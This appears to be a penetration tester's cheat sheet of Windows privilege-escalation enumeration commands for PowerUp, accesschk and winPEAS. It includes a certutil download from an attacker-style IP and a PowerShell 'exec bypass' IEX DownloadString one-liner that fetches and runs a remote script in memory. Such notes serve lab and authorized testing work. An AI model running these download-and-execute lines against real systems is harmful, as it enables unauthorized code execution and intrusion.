 

# PowerUp

```bash
# Remote
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1

# local
certutil -urlcache -split -f "http://10.17.68.184:8000/PowerUp.ps1" PowerUp.ps1
```

To run PowerUp, start a PowerShell session and **use dot sourcing to load the script:**

```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```

**OR**

```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

# accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

# winPEAS

winPEAS is a very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

```
# Code: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
```

Before running, we need to add a registry key and then reopen the command prompt:

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```
.\winPEASany.exe quiet cmd fast
```

Run specific check categories:

```
.\winPEASany.exe quiet cmd systeminfo
```
